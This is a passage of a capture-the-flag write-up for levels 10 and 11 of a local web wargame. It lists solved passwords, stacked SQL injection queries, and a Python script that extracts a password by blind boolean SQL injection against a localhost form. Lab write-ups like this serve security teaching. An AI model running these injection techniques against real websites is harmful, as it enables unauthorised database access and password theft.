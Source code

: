 **Password:** D2g8okMqFaGJbt7aG6MEPM9LoLbKfemr

## Level 10

Text boxes where the user can enter somthing is always dangerous. They can type everything. If they type a command and the user input is not serialized than the service will run the command. In this case a SQL command.

```SQL
;SELECT * FROM Data
--F3 search for ctf
--or
;SELECT * FROM Data WHERE user LIKE "ctf%"
```

**Password:** BaFm2uW3PHdcUyB8Tc2MUc2efWxFU4S4

## Level 11

Similar to last level. But this time the DB-Query result is not directly showed on the page. We get a binary answer: YES the user exists or NO the user does not exists (or invalid query).

But again we can manipulate the query and from the source code we know how the query and DB schema looks like. So we can gerarate a couple of questions that tells us if the password has an "a" in it or a "b" and so on ...

This python script generates the right passowrt just by asking quertions:

```Python
import time
import requests
import string


charset = ''.join(sorted(string.digits + string.ascii_letters))
neededchars = ''
password = ''

cookies = {'Auth': 'KEY'}

for c in charset:
    Data = {'text' : 'ctf12" and pw LIKE BINARY "%' + c + '%" #'}
    r = requests.post('http://localhost:8000/ctf/ctf11', data=Data,
        cookies=cookies)
    if('YAY' in r.text):
        neededchars = neededchars + c
        print(neededchars)
    # time.sleep(1)


print(neededchars)
for i in range(0,32):
    # time.sleep(1)
    for char in neededchars:
        Data = {'text' : 'ctf12" and pw LIKE BINARY "' + password + char + '%" #'}
        r = requests.post('http://localhost:8000/ctf/ctf11', data=Data,
            cookies=cookies)
        if 'YAY' in r.text :
            password = password + char
            print(password)
            break

print(password)

```
